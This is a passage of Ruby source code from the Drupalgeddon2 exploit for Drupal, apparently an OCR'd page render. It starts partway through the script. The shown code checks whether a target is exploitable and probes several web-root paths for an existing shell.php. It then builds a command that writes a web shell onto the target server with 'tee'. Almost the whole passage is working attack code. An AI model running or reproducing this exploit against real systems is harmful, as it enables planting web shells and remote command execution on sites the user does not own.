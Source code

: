 ```ruby

  else
    puts error("Target is NOT exploitable [1] (HTTP Response: #{response.code})")
    puts verbose("response.body: #{response.body}") if $verbose
    exit
  end

  puts "- "*40 if e != elements.last
end

puts "-"*80


# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -


# Location of web shell & used to signal if using PHP shell
webshellpath = ""
prompt = "drupalgeddon2"

# Possibles paths to try
paths = [
  # Web root
  "",
  # Required for setup
  "sites/default/",
  "sites/default/files/",
  # They did something "wrong", chmod -R 0777 .
  #"core/",
]

# Check all (if doing web shell)
paths.each do|path|
  # Check to see if there is already a file there
  puts action("Testing: Existing file   (#{$target}#{path}#{webshell})") # checks if shell.php is in the target path.

  response = http_request("#{$target}#{path}#{webshell}", 'get', '', $session_cookie)
  if response.code == "200"
    puts warning("Response: HTTP #{response.code} // Size: #{response.size}.   ***Something could already be there?***")
  else
    puts info("Response: HTTP #{response.code} // Size: #{response.size}")
  end

  puts "- "*40


  # - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -


  folder = path.empty? ? "./" : path  # if path is empty, set 'folder' to '/' otherwise, set it on one of the array of URL paths.
  puts action("Testing: Writing To Web Root   (#{folder})")  # 

  # Merge locations : Set the webshell path
  webshellpath = "#{path}#{webshell}"  # set the path then the webshell. Basically the landing of the webshell.

  # Final command to execute
  cmd = "#{bashcmd} | tee #{webshellpath}" # plugs in the actual webshell content to '/<target-path>/shell.php'

```